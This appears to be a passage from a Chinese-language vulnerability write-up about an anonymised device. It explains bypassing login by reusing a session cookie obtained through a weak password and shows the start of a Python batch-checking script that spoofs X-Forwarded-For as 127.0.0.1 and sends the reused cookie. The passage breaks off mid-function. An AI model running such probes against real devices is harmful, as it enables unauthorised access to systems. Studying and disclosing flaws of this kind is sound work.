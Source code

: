 



此时我们修改数据包如下

![image-20230224151616135](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202302241516178.png)



主要参数其实就是set-cookie:sessid=xxxxxxx

![image-20230224151622920](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202302241516966.png)



这个参数是怎么获得的呢？其实就是找一个弱口令登录，然后观察返回包内容，这也就是一个细心活，为了验证这个漏洞，笔者在后台发现一处信息泄露(说是硬编码可能会好一些)，后台用户管理模块里面的用户名密码是明文形式展示的，但是此处并非未授权，那么我们就可以通过这个set-cookie来进行批量扫描，以达到验证我们这个漏洞的目的。

```

#!/usr/bin/python
# -*- coding: utf-8 -*-

import argparse
import json
import requests
import urllib3

urllib3.disable_warnings()


def banner():
    print('+------------------------------------------------------------------+')
    print('+ [xxxx设备-xxx漏洞检测]                                        +')
    print('+ [使用方式: python xxx.py -u http://xxx.xxx.xxx.xxx]          +')
    print('+------------------------------------------------------------------+')


def main():
    banner()
    parser = argparse.ArgumentParser(description="xxxxx漏洞探测")
    parser.add_argument('-u', type=str, required=False, dest='url', help="URL to test")
    args = parser.parse_args()
    model(args.url)


def header():
    header = {
        "User-Agent": "自行设置",
        'Content-Type': "application/x-www-form-urlencoded",
        'X - Forwarded - For': '127.0.0.1',
        'Cookie': 'sessid=xxxxxxxxxx'
    }
    return header


# 定义登录URL
def model(url):
    try:
        # 设置获取型号URI
        uri = "/xxxxx"
        # 提交请求
        response = requests.get(headers=header(), url=str(url) + uri, verify=False, timeout=10)
        # 设置json格式
        text = response.text
        s = json.loads(text)
        # 打印型号信息
```